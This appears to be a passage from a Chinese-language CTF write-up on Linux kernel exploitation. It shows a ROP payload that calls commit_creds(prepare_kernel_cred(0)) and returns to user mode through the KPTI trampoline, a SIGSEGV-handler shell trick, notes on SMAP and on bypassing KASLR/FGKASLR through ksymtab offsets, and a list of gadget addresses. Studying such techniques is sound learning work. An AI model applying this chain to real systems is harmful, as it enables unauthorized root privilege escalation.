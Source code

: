 在`jmp     short loc_FFFFFFFF81200F89`后，有两个多的`pop`所以我们要体现布置好填充。

```c
    payload[off++] = commit_creds;    // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_pass; // swwapgs_restore_regs_and_return_to_usermode
    payload[off++] = 0;           // dummy rax
    payload[off++] = 0;           // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
```

### Signal handler

保持原来的payload不变，在main中进行处理函数注册`signal(SIGSEGV, get_shell);`

绝妙的主意！

## Add SMAP

添加`SMAP`后用户态的页面无法被访问，这并没有影响我们的ROP。但是栈迁移无法被使用，我们无法将栈劫持到用户空间。

目前绕过的技术仍然未知。TODO

## Add KASLR

现在，我们面对完整的挑战了！

如果仅仅使用`KASLR`我们可以在栈上泄露内核的基址并通过偏移找到其他所有函数。这没有增加太大的困难。在`FGKASLR`下，即使我们知道了内核的基址，其他函数的偏移依然无法确定。

> 运行多次并查看`/proc/kallsyms`，发现每次偏移都不同，则开启的`FGASLR`

在`FGKASLR`下有一些偏移是不变的：

- 从`_text`到`__x86_retpoline_r15`，即`_text+0x400dc6`
- `swwapgs_restore_regs_and_return_to_usermode`没有变化
- `ksymtab`地址，该结构记录其他所有函数的地址信息。我们可以从中得到`prepare_kernel_cred`和`commit_creds`。

```c
struct kernel_symbol {
	  int value_offset;		// funcxx_addr = ksymtab_funcxx_addr + value_offset
	  int name_offset;
	  int namespace_offset;
};
```

寻找能使用的gadget。

```c
/*
ffffffff81200f10 T swapgs_restore_regs_and_return_to_usermode
ffffffff81f8d4fc r __ksymtab_prepare_kernel_cred
ffffffff81f87d90 r __ksymtab_commit_creds

0xffffffff81015a7f : mov rax, qword ptr [rax] ; pop rbp ; ret

0xffffffff81004d11 : pop rax ; ret
0xffffffff81006370 : pop rdi ; ret
0xffffffff81007616 : pop rdx ; ret
0xffffffff81006158 : pop rbx ; ret
0xffffffff8100636d : pop r12 ; pop r15 ; ret
0xffffffff8100636f : pop r15 ; ret
0xffffffff8100636e : pop rsp ; pop r15 ; ret
*/

void leak(void)
{
```